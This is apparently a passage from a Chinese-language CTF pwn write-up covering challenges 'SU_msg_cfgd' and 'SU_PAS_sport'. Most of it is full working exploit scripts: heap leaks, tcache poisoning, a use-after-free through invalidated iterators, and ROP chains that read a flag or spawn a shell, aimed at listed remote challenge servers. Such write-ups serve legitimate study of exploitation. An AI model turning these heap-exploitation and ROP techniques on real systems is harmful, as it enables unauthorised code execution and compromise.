    free(0),
    loop()
])
submit(payload)
heap_base = u64(io.recv(8))
log.success(f"{heap_base=:#x}")

payload = flat([
    add(0, 0x418),
    do_with(0, [
        put_8bytes(offset+libc.symbols['_environ']-libc_base), # mp_.sbrk_base
    ]),
    free(0),
    loop()
])
submit(payload)
stack_leak = u64(io.recv(8))
log.success(f"{stack_leak=:#x}")

offset = 0x160  

payload = flat([
    add(0, 0x418),
    add(1, 0x440),
    add(14, 0x420),
    add(2, 0x450),
    add(3, 0x450),
    free(2),
    add(2, 0x460),
    free(1),
    do_with(14, [
        pretain_bytes(b"\x00" * 0x40),
        # write_offset_i64(0x3f8+0x10, libc.symbols['_IO_2_1_stderr_'] - 0x20),
        write_offset_i64(0x3f8+0x10, libc_base + 0x2031e8 - 0x20), # mp_.tcache_bins
    ]),
    add(1, 0x460),
    add(4, 0x460),
    add(5, 0x460),
    add(6, 0x460),
    add(7, 0x460),
    free(7),
    free(6),
    free(5),
    do_with(4, [
        pretain_bytes(flat({
            0: b"flag\x00",
        }, length=0x100)),
        write_offset_i64(0x370, (stack_leak - 0x160 - 8 - 0x10) ^ ((heap_base + 0x2550) >> 12) ),
    ]),
    add(5, 0x460),
    loop()
])
assert len(payload) <= 4096, len(payload)
submit(payload)

"""
0x000000000010f75b: pop rdi; ret;
0x0000000000110a4d: pop rsi; ret;
0x00000000000a6df3: mov rdx, r9; syscall;
0x00000000000b00c7: mov rdx, r13; pop rbx; pop r12; pop r13; pop rbp; ret;
0x000000000009d13c: mov rdx, r13; syscall;
0x00000000000b00c7: mov rdx, r13; pop rbx; pop r12; pop r13; pop rbp; ret;
0x00000000000584c9: pop r13; ret;
0x00000000000dd237: pop rax; ret;
0x0000000000098fa6: syscall; ret;
"""
pop_rdi = libc_base + 0x000000000010f75b
pop_rsi = libc_base + 0x0000000000110a4d
pop_r13 = libc_base + 0x00000000000584c9
mov_rdx_r13 = libc_base + 0x00000000000b00c7
pop_rax = libc_base + 0x00000000000dd237
syscall = libc_base + 0x0000000000098fa6
flag_addr = heap_base + 0x20e0

def make_list(start: int, ok: list[int]):
    res = []
    for i, v in enumerate(ok):
        res.append(write_offset_i64(start + i * 8, v))
    return res

payload = flat([
    add(6, 0x460),
    do_with(6, make_list(0x18, [
        pop_rdi, flag_addr,
        pop_rsi, 0,
        pop_rax, 2, # open
        pop_r13, 0,
        mov_rdx_r13, 0, 0, 0, 0,
        syscall,
        pop_rdi, 3,
        pop_rsi, flag_addr,
        pop_rax, 0, # read
        pop_r13, 0x40,
        mov_rdx_r13, 0, 0, 0, 0,
        syscall,
        pop_rdi, 1,
        pop_rax, 1, # write
        pop_r13, 0x40,
        mov_rdx_r13, 0, 0, 0, 0,
        syscall,
    ])),
    loop()
])
assert len(payload) <= 4096, len(payload)

submit(payload)

io.interactive()
```

## 5.4 SU_msg_cfgd

保存在MsgHandler中的迭代器会因为对容器的操作而失效从而产生use after free

```Python
from pwn import *

sh = process("./main")

context.terminal = ['tmux', 'splitw', '-h']

def gen_data(msg_type, handler_id, cfg_cnt, cmd=[], should_update_last_update=False):
    # v16 => 8 bytes
    # v17 cfg cnt => 4 bytes
    # cfg
    """
    struct CMD_CFG {
        int msg_type;
        int handler_id;
        int cfg_cnt;
        struct input_cmd[0]; // variable size
    }

    struct input_cmd {
        uint32_t cmd;
        uint32_t name_len;
        char name[name_len];
        uint32_t content_len;
        char content[content_len];
        char wtf;
    }
    """
    data = b""
    data += p32(msg_type)
    data += p32(handler_id)
    data += p32(cfg_cnt)

    for c in cmd:
        data += p32(c['cmd'])
        data += p32(len(c['name']))
        data += c['name']
        data += p32(len(c['content']))
        data += c['content']
        if should_update_last_update:
            data += b"\x01"
        else:
            data += b"\x00"

    return data

# Local => 65
# Remote => 97
"""
.rel.ro:0000555555562AA0 ; `vtable for'RemoteHandler
.data.rel.ro:0000555555562AA0 _ZTV13RemoteHandler dq 0                ; offset to this
.data.rel.ro:0000555555562AA8                 dq offset _ZTI13RemoteHandler ; `typeinfo for'RemoteHandler
.data.rel.ro:0000555555562AB0 off_555555562AB0 dq offset _ZN13RemoteHandler9handleMsgEv
.data.rel.ro:0000555555562AB0                                         ; DATA XREF: RemoteHandler::RemoteHandler(void)+1C↑o
.data.rel.ro:0000555555562AB0                                         ; RemoteHandler::~RemoteHandler()+10↑o
.data.rel.ro:0000555555562AB0                                         ; RemoteHandler::handleMsg(void)
.data.rel.ro:0000555555562AB8                 dq offset _ZN10MsgHandler9handleCMDEPc ; MsgHandler::handleCMD(char *)
.data.rel.ro:0000555555562AC0                 dq offset _ZN10MsgHandler6cmdGetEPc ; MsgHandler::cmdGet(char *)
.data.rel.ro:0000555555562AC8                 dq offset _ZN13RemoteHandler6cmdAddEPc ; RemoteHandler::cmdAdd(char *)
.data.rel.ro:0000555555562AD0                 dq offset _ZN13RemoteHandlerD2Ev ; RemoteHandler::~RemoteHandler()
.data.rel.ro:0000555555562AD8                 dq offset _ZN13RemoteHandlerD0Ev ; RemoteHandler::~RemoteHandler()
.data.rel.ro:0000555555562AE0                 dq offset _ZN10MsgHandler9cmdUpdateEPc ; MsgHandler::cmdUpdate(char *)
.data.rel.ro:0000555555562AE8                 dq offset _ZN10MsgHandler7add_objEPc ; MsgHandler::add_obj(char *)
.data.rel.ro:0000555555562AF0                 dq offset _ZN10MsgHandler10update_objEPc ; MsgHandler::update_obj(char *)
.data.rel.ro:0000555555562AF8                 dq offset _ZN10MsgHandler9visit_objEv ; MsgHandler::visit_obj(void)
.data.rel.ro:0000555555562B00                 dq offset _ZN10MsgHandler9cmdDeleteEPc ; MsgHandler::cmdDelete(char *)
.data.rel.ro:0000555555562B08                 dq offset _ZN10MsgHandler8cmdVisitEPc ; MsgHandler::cmdVisit(char *)
.data.rel.ro:0000555555562B10                 public _ZTV12LocalHandler ; weak
.data.rel.ro:0000555555562B10 ; `vtable for'LocalHandler
.data.rel.ro:0000555555562B10 _ZTV12LocalHandler dq 0                 ; offset to this
.data.rel.ro:0000555555562B18                 dq offset _ZTI12LocalHandler ; `typeinfo for'LocalHandler
.data.rel.ro:0000555555562B20 off_555555562B20 dq offset _ZN12LocalHandler9handleMsgEv
.data.rel.ro:0000555555562B20                                         ; DATA XREF: LocalHandler::LocalHandler(void)+1C↑o
.data.rel.ro:0000555555562B20                                         ; LocalHandler::~LocalHandler()+10↑o
.data.rel.ro:0000555555562B20                                         ; LocalHandler::handleMsg(void)
.data.rel.ro:0000555555562B28                 dq offset _ZN10MsgHandler9handleCMDEPc ; MsgHandler::handleCMD(char *)
.data.rel.ro:0000555555562B30                 dq offset _ZN10MsgHandler6cmdGetEPc ; MsgHandler::cmdGet(char *)
.data.rel.ro:0000555555562B38                 dq offset _ZN10MsgHandler6cmdAddEPc ; MsgHandler::cmdAdd(char *)
.data.rel.ro:0000555555562B40                 dq offset _ZN12LocalHandlerD2Ev ; LocalHandler::~LocalHandler()
.data.rel.ro:0000555555562B48                 dq offset _ZN12LocalHandlerD0Ev ; LocalHandler::~LocalHandler()
.data.rel.ro:0000555555562B50                 dq offset _ZN10MsgHandler9cmdUpdateEPc ; MsgHandler::cmdUpdate(char *)
.data.rel.ro:0000555555562B58                 dq offset _ZN10MsgHandler7add_objEPc ; MsgHandler::add_obj(char *)
.data.rel.ro:0000555555562B60                 dq offset _ZN10MsgHandler10update_objEPc ; MsgHandler::update_obj(char *)
.data.rel.ro:0000555555562B68                 dq offset _ZN10MsgHandler9visit_objEv ; MsgHandler::visit_obj(void)
.data.rel.ro:0000555555562B70                 dq offset _ZN10MsgHandler9cmdDeleteEPc ; MsgHandler::cmdDelete(char *)
.data.rel.ro:0000555555562B78                 dq offset _ZN10MsgHandler8cmdVisitEPc ; MsgHandler::cmdVisit(char *)
"""

"""
RemoteHandler::cmdAdd
    -> MsgHandler::update_obj (set last_update_obj_iter)
MsgHandler::cmdAdd
    -> will not set last_update_obj_iter
"""

kLocalHandler = 65
kRemoteHandler = 97
kCmdGet = 0
kCmdAdd = 1
kCmdUpdate = 2
kCmdDelete = 3
kCmdVisit = 4

#gdb.attach(sh)

# nc 1.95.34.240 10003
sh = remote("1.95.34.240", 10003)

#context.log_level = 'debug'

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"a"*0x18,
        'content': b"x"*0x20
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"a"*0x18,
        'content': b"z"*0x20
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"b"*0x18,
        'content': b"p"*0x20
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"c"*0x18,
        'content': b"o"*0x20
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdDelete,
        'name': b"a"*0x18,
        'content': b""
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdDelete,
        'name': b"b"*0x18,
        'content': b""
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdDelete,
        'name': b"c"*0x18,
        'content': b""
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"b"*0x18,
        'content': b"y"*0x20
    }
], should_update_last_update=False))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdVisit,
        'name': b"c"*0x50,
        'content': b"x"*0x20
    }
], should_update_last_update=False))

sh.recvuntil(b'Content: ')
leak = u64(sh.recv(6).ljust(8, b"\x00"))
log.info(f"leak: {hex(leak)}")

# fix last_update_obj_iter for LocalHandler
sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"fix",
        'content': b"x"*0x20
    }
], should_update_last_update=False))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"big1",
        'content': b"x"*0x500
    }
], should_update_last_update=True))
sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"big2",
        'content': b"y"*0x500
    }
], should_update_last_update=True))

# invalid last_update_obj_iter
sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"invalidate",
        'content': b"x"*0x20
    }
], should_update_last_update=False))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdDelete,
        'name': b"fix",
        'content': b"x"*0x20
    }
], should_update_last_update=False))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdVisit,
        'name': b"c"*0x50,
        'content': b"x"*0x20
    }
], should_update_last_update=False))

sh.recvuntil(b'Content: ')
libcbase = u64(sh.recv(6).ljust(8, b"\x00"))-0x1ecbe0
log.info(f"leak: {hex(libcbase)}")

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"fuck1",
        'content': b"x"*0x18
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"2"*0x18,
        'content': b"y"*0x18
    }
], should_update_last_update=False))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"3"*0x30,
        'content': b"y"*0x30
    }
], should_update_last_update=False))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdDelete,
        'name': b"2"*0x18,
        'content': b""
    }
], should_update_last_update=False))


sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdDelete,
        'name': b"fuck1",
        'content': b"x"*0x18
    }
], should_update_last_update=False))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdAdd,
        'name': b"i"*0x8,
        'content': b"j"*0x8
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kLocalHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdUpdate,
        'name': b"i"*0x8,
        'content': b"j"*0x18
    }
], should_update_last_update=True))

#gdb.attach(sh)
sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdUpdate,
        'name': b"i"*0x8,
        'content': (b"\x00"*0x80+p64(0)*2+p64(leak+0x280)+p64(0x1ecb70+libcbase)*10).ljust(0x280, b'\x00')
    }
], should_update_last_update=True))

sh.sendlineafter(b'Enter command: ', gen_data(msg_type=1, handler_id=kRemoteHandler, cfg_cnt=1, cmd=[
    {
        'cmd': kCmdUpdate,
        'name': p64(0xe3b01+libcbase)*(0x50//8),
        'content': b''
    }
], should_update_last_update=True))

sh.interactive()

# local:  0x00007fffffffe038
# remote: 0x00007fffffffe088
```

## 5.5 SU_PAS_sport

漏洞在于，创造ocean时，先往size写入数据，然后再进行判断；如果我们先创造一个合法大小的ocean，再创建一个非法ocean时，就可以修改size


思路，我们可以通过这个来实现修改text或者byte打开的文件堆块的fd值，因为text是需要得到在"0"-"255"的字符串值进行转化成byte，所以我们这里就必须通过byte直接读取/dev/urandom的随机值对text的fd进行修改，修改成标准输入0，之后我们就可以通过text进行在ocean里任意往下写字符

但是我研究之后发现text打开的文件堆块是由对应的缓冲区的，所以我们只需要把缓冲区修改成exception的控制函数地址，对其里面的指针进行修改，就可以劫持执行流

最后思路是通过byte修改text的fd，在通过释放byte和重新申请ocean，使得ocean在byte的上方，然后就可以把byte的fd进行修改，修改完之后，再次回到之前在text的上方位置，通过调用byte进行写入，把text的缓存区修改为exception的指针，最后进行ROP的利用即可

```Python
from pwn import*
context(arch='amd64', os='linux',log_level="debug")
context.terminal=["wt.exe","wsl.exe"]
#libc = ELF("../libc/")
# libc = ELF("./libc-so.6")
"""""
def xxx():
    p.sendlineafter("")
    p.sendlineafter("")
    p.sendlineafter("")
"""

def new_gate(mode):
    p.sendlineafter("choice >",'1')
    p.sendlineafter("2.gate of text",str(mode))

def close_gate(mode):
    p.sendlineafter("choice >",'2')
    p.sendlineafter("2.gate of text",str(mode))

def new_date(size):
    p.sendlineafter("choice >",'3')
    p.sendlineafter("Please input the size of the data ocean.",str(size))

def update_(size,mode):
    p.sendlineafter("choice >",'4')
    p.sendlineafter("How much data?",str(size))
    p.sendlineafter("2.gate of text",str(mode))

def get_p(name):
    global p,elf 
    # p = process(name)
    p = remote("1.95.131.201",10011)
    elf = ELF(name)

def edit(payload):
    for i in payload:
        p.sendline(str(i))
        # sleep(0.1)
get_p("./chall")
# new_date(0x20)
new_date(0x268)

new_gate(2)
# close_gate(1)
new_gate(1)

new_date(0x500)

len_s = len("**GATES OF DATA**")
while True:
    update_(0x281,1)
    judge = p.recvuntil("**GATES OF DATA**")[-len_s-4:-len_s-2]
    if (judge == b"00"):
        break

close_gate(1)
new_date(0x278)
# new_date(0x28)
new_gate(1)
# new_date(0x100)

new_date(0x800)

payload = b"\x00"*(0x2a0- 0x18) + p64(0x00000000000002a0) + p64(0x0000000000480678) + p64(0x2a2) + b"\x00"

update_(len(payload),2)
sleep(1)
# p.recvuntil("sea")
edit(payload)

# close_gate(2)
new_date(0x268)
new_date(0x888)

# new_date(0x268)
len_s = len(b"A"*0x280+p64(0x0000d7b100000000)+p64(0x0000000000000100)+p64(0)*3+p64(0x480880))
update_(len_s,1)
sleep(0.1)
p.send(b"A"*0x280+p64(0x0000d7b100000000)+p64(0x0000000000000100)+p64(0)*3+p64(0x480880-0xc0))
# gdb.attach(p,"b *0x402b9a")

# gdb.attach(p,"b *0x0401AAF")
sleep(3)
update_(1,2)
# 0x000000000044a5a1 : mov eax, dword ptr [rsi] ; call qword ptr [rax + 0xc8]
# 0x0000000000404025 : pop rdi ; pop r14 ; pop r13 ; pop r12 ; pop rbx ; ret
# 0x0000000000402f3c : pop rsi ; pop r13 ; pop r12 ; pop rbx ; ret
# 0x00000000004587d2
payload = (p64(0x480880-0xc0-0xb0) + p64(0x0000000000404025) + p64(0x045EE70) + p64(0x000000000042f62f) + p64(0)*3+p64(0x0000000000424573) + p64(0)+ p64(0x0000000000406916)+p64(0x0000000000413db3)+p64(0x3b)+p64(0x0000000000401fff)).ljust(0xc0,b"\x00") + p64(0x000000000044a5a1)
sleep(1)
p.send(payload)
p.interactive()
```